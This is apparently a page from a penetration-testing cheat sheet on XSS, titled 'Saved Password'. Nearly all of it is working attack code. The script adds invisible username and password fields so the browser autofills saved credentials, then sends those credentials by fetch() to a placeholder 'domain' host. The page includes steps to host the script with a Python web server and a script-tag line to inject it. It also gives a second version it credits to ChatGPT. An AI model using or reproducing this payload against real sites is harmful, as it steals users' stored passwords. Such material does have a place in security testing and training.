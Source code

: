 ```yaml
---
title: Saved Password
layout: default
parent: XSS
has_children: false
nav_order: 4
---
```


<h2>Hosting method:</h2>

1. First create a file name savedpassword.js with the following content:
```
let body = document.getElementsByTagName("body")[0];
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
body.append(u);
body.append(p);
setTimeout(function(){ 
       fetch("http://domain/?saveduser=" + u.value + "&savedpass=" + p.value)
}, 5000);
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/savedpassword.js"></script>`

4. Alternative solution by ChatGPT for on submission or moved from input box:
```
let body = document.getElementsByTagName("body")[0];
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
body.append(u);
body.append(p);
function sendData() {
    fetch("http://domain/?saveduser=" + u.value + "&savedpass=" + p.value);
}
u.addEventListener("change", sendData);
p.addEventListener("change", sendData);
```
